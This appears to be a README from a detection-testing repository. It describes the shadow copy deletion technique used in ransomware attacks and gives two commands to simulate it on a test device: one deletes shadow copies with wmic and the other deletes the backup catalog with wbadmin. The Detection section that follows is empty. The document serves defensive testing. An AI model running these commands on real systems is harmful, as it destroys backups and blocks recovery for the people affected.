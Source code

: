 # Shadow Copy Delete

Shadow Copy Deletion is a technique where attackers delete or disable built-in Windows shadow copies and recovery services. This prevents system recovery by denying access to backups, making it significantly more challenging for victims to restore corrupted or encrypted data.

## Simulation

Run the following commands in PowerShell / Windows Command Prompt as Administrator on a test device.

> **Note:** Download the [simulation script here](Invoke-DeleteShadowCopySimulation.ps1).
> To execute the simulation run the command `Invoke-DeleteShadowCopySimulation.ps1`.

### Delete Shadow Copy

```powershell
wmic.exe shadowcopy delete /nointeractive
```

### Delete Windows Backup Catalog

```powershell
wbadmin delete catalog -quiet
```

## Detection
